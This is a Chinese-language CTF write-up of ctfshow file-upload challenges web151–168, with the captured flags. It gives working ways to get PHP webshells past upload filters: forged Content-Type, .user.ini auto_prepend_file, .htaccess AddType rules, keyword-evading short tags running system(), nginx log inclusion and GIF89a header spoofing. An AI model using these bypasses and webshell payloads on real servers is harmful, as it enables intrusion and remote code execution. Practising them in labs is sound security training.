

文件上传
web151
绕过前端检测

lay-data=“{url: ‘upload.php’, accept: ‘images’,exts:‘png’}”
后面的png改为php即可上传php文件
php文件内容为
1 |
|
上传之后antsword连接
ctfshow{1b64824a-9dce-448c-b3ab-1a228b2976a4}
web152
我们还是要穿php文件，先把前端改了，然后bp抓包
把Content-Type后面的东西改成image/png
然后antsword连接
ctfshow{442b5262-0765-423f-8759-546621822503}
web153
使用.user.ini文件
1 | auto_prepend_file=/var/www/html/upload/zmr.png |
然后上传zmr.png木马图片
antsword连接https://a3d88db1-0616-4d9e-aed7-e002209afe35.challenge.ctf.show/upload/
ctfshow{787f5258-2357-435f-a3cb-3d36ff826349}
web154
文件内容不合规,过滤了php关键词
把php换成=
ctfshow{6022d1f3-ecab-4424-9e61-c71c64c7bbaa}
web155
上题同理
ctfshow{c6337925-a6f3-4066-a910-ceb1951d6830}
web156
过滤字符[]，[]可以可以使用{}代替。
1 |
|
ctfshow{e52c5580-89b6-4c3f-aef6-c46687c1b009}
web157
又过滤了{}和;
<?=system("tac ../f\*");?>
再传一遍.user.ini
直接拿flag
如果flag位置变了，直接修改sys内容
ctfshow{3f54cbb0-099f-4e95-9840-052316add8ee}
web158
上方方法
ctfshow{0525c3f0-1c13-4486-a14f-812740141737}
web159
先发一遍.user.ini
再改
ctfshow{e818ad09-0b23-445f-b73e-d6a6b8fdd4f0}
web160
这一题过滤了log关键词，我真服了，这tm过滤了log谁tm能过滤log啊？现实别人服务器会过滤这玩意？这纯tm只跟ctf有关好吗？
包含日志
1.png当中写
1 | include"/var/lo"."g/nginx/access.lo"."g" |
.user.ini当作写
1 | auto_prepend_file=/var/www/html/upload/1.png |
进入/upload/
uset-agent:
post传参
ctfshow{cfacbc38-ea29-4652-9085-7fcf66e12707}
web161
方法同上，只是在png文件前面加一个GIF89A
ctfshow{ecc6f79c-d50b-4662-805a-9efb1c61be22}
web162-166
涉及本地ip，不解释，自己wp
web167
服务器是apache
用.htaccess
1 | AddType application/x-httpd-php.png |
将.png后缀的文件解析 成php
然后传zmr.jpg
ctfshow{5fdfdfe5-9048-45cf-a9c9-715a32cdf4a2}
web168
ctfshow{dae808c7-e828-4e5e-9821-2387a549c2e5}
wp说要啥免杀